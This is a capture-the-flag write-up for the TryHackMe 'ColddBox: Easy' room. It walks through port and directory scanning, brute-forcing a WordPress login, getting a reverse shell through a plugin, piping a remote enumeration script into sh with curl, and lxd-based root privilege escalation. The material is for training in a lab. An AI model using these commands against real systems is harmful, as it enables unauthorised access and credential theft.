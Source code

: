 # > ColddBox: Easy
<https://tryhackme.com/room/colddboxeasy>
-------------------------
It is a cool box (literally). So lets start some Hacking …
So lets start with some nmap scan to enumerate which all ports are open.
```bash
# nmap -T4 -sV -A target > nmap_scan.txt 
```
![1](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/1.png)

So port 80 is open that I already knew by opening the ip in web browser.
Since it was a web page I began directory search to see is there any broken
access control.
```bash
# gobuster dirb -u target:80 --wordlist /usr/share/wordlists/dirb/small.txt -e -o dir.txt 
```
![2](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/2.png)

There is a ‘/hidden’ directory on the target that is accessible and gave
potential users on the target.

![3](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/3.png)

And since web page is made on wordpress and there is a login page, great
option to bruteforce wordpress login is using wpscan.

```bash
$ wpscan --url http://target/wp-login.php -e u -P /usr/share/wordlist/rockyou.txt 
```
![4](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/4.png)

Bingo!!! we have a password for c0ldd user. After login we have an
admin dashboard.

Lest get a reverse shell on the target using WP plugin. I found this simple
reverse shell script on
<https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell>.

![5](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/5.png)

I started a netcat listener on my machine on port 8000 
```bash 
# nc -lvnp 8000 
```
and got a reverse shell by activating our plugin and found that www-data
user have very less permissions thus I enumerated the target using
[linpeas.sh]( https://github.com/carlospolop/privilege-escalation-awesome-scripts-suit
e/tree/master/linPEAS ).Download the linpeas.sh file form Github on your
machine,cd to the downloaded directory and start a simple python server on
your machine 
```bash 
# python3 -m http.server 1234 
``` 
and on target run it using
```bash 
$ curl http://<attackbox_ip>:1234/linpeas.sh | sh 
```
This will directly
run the shell script on the target machine.

![6](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/6.png)

This gave away wp-config.php file that contained password of user _c0ldd_.
To su to _c0ldd_ user we need a stable shell, stablizing shell by this great
one-liner 
```bash 
$ pyhton3 -c ‘import pty;pty.spawn(“/bin/bash”)  $ su c0ldd 
```
and use password _cybersecurity_ to get access. Now cat the user.txt flag in
/home/c0ldd directory 
```bash 
$ cat /home/c0ldd/user.txt 
```

![7](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/7.png)

Hurray!! got the user flag.

##### Now lets get root access.

Linpeas enumeration also gave potential services, users that could be
exploited. Luckly lxd (container service) is present and accessible by _c0ldd_ user.

![8](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/8.png)

Lets exploit this service, Download the vulnerable container image using 
[alpine for lxd](https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml)
cd to download dir and start http server and transfer the file to target machine
using wget.

> Add the image :
```bash 
$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list -- You can see your new imported image
```
> Create a container and add root path
```bash
$ lxc init alpine privesc -c security.privileged=true
$ lxc list 
$ lxc config device add privesc host-root disk source=/ path=/mnt/root
recursive=true
```
> Execute the container:
```bash
$ lxc start privesc
$ lxc exec privesc /bin/sh
```

As this container is mounted with /root directory we can access root.txt
inside it 
```bash 
$ cat /mnt/root/root.txt 
```

![9](https://github.com/nairitya03/CTF-WriteUps/blob/main/THM/C0ldd_BOX/Screenshots/9.png)

> With that the we rooted the box.
